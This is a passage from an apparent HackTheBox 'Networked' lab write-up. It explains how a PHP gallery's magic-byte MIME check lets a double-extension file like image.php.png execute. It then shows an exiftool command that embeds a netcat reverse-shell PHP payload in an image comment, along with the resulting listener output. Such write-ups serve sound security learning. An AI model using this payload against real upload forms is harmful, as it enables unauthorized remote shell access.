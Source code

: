 ```php
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}
?>
```

The biggest problem is that the `file_mime_type` function, determines the type
of file based on the magic bytes.

So if we embed some PHP code in an image, and name it `image.php.png` the server
will name it , in my case, `10.10.14.8.php.png`, it will replace the dots in the
file name with underscores and the final name will be `10_10_14_8.php.png` and
this allows PHP to run the code inside it.

This is an example of the gallery after a file gets uploaded:
![](/images/hackthebox/networked/uploaded.png)

## Getting a shell


Let's embed a PHP command to execute a reverse shell, I will use exiftool for
convenience:
```
$ exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' hackthebox.png
    1 image files updated
```
Let's rename the file and upload it. After refreshing the gallery page, the PHP
code gets executed and we have shell:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:57998.
whoami
apache
```
